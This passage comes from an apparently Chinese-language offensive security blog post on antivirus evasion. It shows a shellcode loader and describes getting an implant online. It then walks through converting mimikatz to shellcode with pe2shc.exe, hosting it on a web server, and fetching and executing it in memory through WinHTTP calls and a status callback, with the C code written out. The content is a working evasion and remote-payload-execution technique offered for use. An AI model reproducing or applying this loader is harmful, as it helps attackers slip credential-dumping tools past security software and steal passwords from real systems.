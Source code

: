             LoadSc(lpOutBuffer);//这个函数定义在上面  
        }  
    }  
    

成功上线  
![](https://gitee.com/fuli009/images/raw/master/public/20221005121455.png)

## 免杀加载mimikatz

mimikatz本身是我是没有做任何免杀的

效果如下

![](https://gitee.com/fuli009/images/raw/master/public/20221005121456.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221005121458.png)  
不过因为存在杀软的原因，所以还是无法读取密码,不过至少达到我们加载mimikatz的目的了

![](https://gitee.com/fuli009/images/raw/master/public/20221005121459.png)

实现如下 ：

这里我们需要用到github上的一个项目,这是地址https://github.com/hasherezade/pe\\_to\\_shellcode

我们需要用到里面的pe2shc.exe这个文件，它可以把exe文件变成shellcode  
`pe2shc.exe mimikatz文件 mimimi.txt`  
随后会生成一个mimimi.txt文件，我们把它放在我们的网站根目录下

读取mimimi.txt  
这里使用WinHttpQueryDataAvailable获取数据大小然后使用WinHttpReadData来读取数据，最后利用WinHttpSetStatusCallback设置回调函数执行

在Winhttpconnect里填写网站对应的ip，端口，在WinHttpOpenRequest里填写对应要访问的文件(我这里是刚才生成的mimimi.txt)

    
    
    HINTERNET hSession = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);  
    HINTERNET hConnect = WinHttpConnect(hSession, L"127.0.0.1", 80, 0);  
    HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"mimimi.txt", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);  
    

随后调用WinHttpSendRequest和WinHttpReceiveResponse

    
    
    BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);  
    bResults = WinHttpReceiveResponse(hRequest, NULL);  
    

最后WinHttpReadDat读取，设置回调函数执行

    
    
    DWORD dwSize = 0;  
    //hRequest是之前WinHttpOpenRequest返回的句柄  
    if (!WinHttpQueryDataAvailable(hRequest, &dwSize))  
    {  
            printf("Error %u in WinHttpQueryDataAvailable.\n",  
                    GetLastError());  
            break;  
    }  
    if (!dwSize)  
            break;  
    dwSize = dwSize * 4000;  
    //这里我乘以4000是因为获取的大小老是小于mimimi.txt文件的大小，所以我直接干脆乘以4000，以防万一  
      